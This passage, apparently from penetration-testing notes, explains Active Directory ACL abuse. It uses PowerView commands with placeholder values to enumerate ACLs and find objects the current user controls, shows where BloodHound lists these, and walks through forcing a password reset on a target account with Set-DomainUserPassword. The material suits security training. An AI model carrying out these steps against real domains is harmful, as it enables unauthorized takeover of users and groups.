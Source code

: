 Then follow the previous process to convert the GUID in human-readable format. The output of this command will be users that we may have control over them. Let's use PowerView to see which permissions has the next target, that we get in the previous command:
```console
PS C:\zeropio> $sid2 = Convert-NameToSid <NEXT USER>
PS C:\zeropio> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

Maybe we see here something of interes we may want to analyze digger:
```console
PS C:\zeropio> Get-DomainGroup -Identity "<GROUP OF THE TARGET>" | select memberof
```

We can now check that group:
```console
PS C:\zeropio> $itgroupsid = Convert-NameToSid "<GROUP>"
PS C:\zeropio> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

Keep searching the objects we will be finding. This can lead to a user takeover, a group takeover and others users takeover. With other privileges and permissions to sites we don't have access.

### BloodHound 

In BloodHound GUI we can select our start user as our starting node, in the **Node Info** scroll down to **Outbound Control Rights**. We will see object we have directly control.

## ACL Abuse Tactics 

First, we must authenticate as the user we have and change the password of the user we have control of. Authentication:
```console
PS C:\zeropio> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\zeropio> $Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $SecPassword)
```

Now create a **SecureString Object**, which will be the password for the other user:
```console
PS C:\zeropio> $Password = ConvertTo-SecureString '<NEW PASSWORD>' -AsPlainText -Force
```

Finally, we use the function **Set-DomainUserPassword** to change the password:
```console
PPS C:\zeropio> Import-Module .\PowerView.ps1
PS C:\zeropio> Set-DomainUserPassword -Identity <TARGET USER> -AccountPassword $Password -Credential $Cred -Verbose
```

> We can do this in a Linux host with a tool like **pth-net**, from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit).
{: .prompt-tip}

Now authenticate in the user:
```console
PS C:\zeropio> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\zeropio> $Cred2 = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<TARGET USER>', $SecPassword)
```
